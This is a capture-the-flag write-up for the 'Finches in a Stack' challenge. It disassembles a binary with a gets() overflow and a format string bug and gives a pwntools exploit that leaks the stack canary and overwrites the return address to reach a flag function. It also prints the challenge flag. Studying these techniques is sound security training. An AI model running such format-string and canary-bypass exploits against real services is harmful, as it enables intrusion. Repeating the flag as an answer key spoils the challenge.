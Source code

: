 # Finches in a Stack

> There's a service at 88.198.219.20:13311, exploit it to get the flag.

## Description

Let's disassemble the binary with Ghidra. The main function calls the following function:

```c
void say_hi(void)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  int in_GS_OFFSET;
  byte bVar4;
  char local_29 [4];
  undefined2 uStack37;
  undefined local_22 [18];
  int local_10;
  
  bVar4 = 0;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Hi! What\'s your name? ");
  gets((char *)((int)&uStack37 + 1));
  printf("Nice to meet you, ");
  uVar2 = 0xffffffff;
  pcVar3 = (char *)((int)&uStack37 + 1);
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)((int)&uStack37 + ~uVar2) = 0xa21;
  *(undefined *)((int)&uStack37 + ~uVar2 + 2) = 0;
  printf((char *)((int)&uStack37 + 1));
  puts("Do YOU want to pet my canary?");
  gets(local_29);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

There are a lot of vulnerabilities here:
- there is a first buffer overflow for buffer `local22 = &ustack37 + 1`
- then there is a format string vulnerability which prints the content of this same buffer
- finally the buffer `local29` can also be overflown.
- there is another function `flag` implemented which leak the flag.

The issue is that canaray protection is enabled. With `checksec`, we remark that PIE is not enabled.

## Solution

The format string vulnerability can leak the value of the canaray. Therefore we exploit it to leak the canary value and use it when we overflow the second buffer to overwrite the return address with `flag` address.

```python
from pwn import *

sh = remote('88.198.219.20', 30709)

print(sh.recvuntil("name?").decode())

# Leak canary
offset = 11
payload = "%{}$p".format(offset)
sh.sendline(payload)

print(sh.recvuntil("you, ").decode(), end="")
canary = sh.recvuntil("!").decode()
print(canary)
canary = int(canary.split("!")[0], 16)

# Overflow
offset_canary = 4*6+1
offset_ret = 3*4
flag = 0x80491d2 # PIE not enabled
print(sh.recvuntil("canary?").decode())
payload = b" "*offset_canary + p32(canary) + b" "*offset_ret + p32(flag) + "".join([str(i)*4 for i in range(9)]).encode()

sh.sendline(payload)

sh.interactive()
```

Flag: `ractf{St4ck_C4n4ry_FuN!}`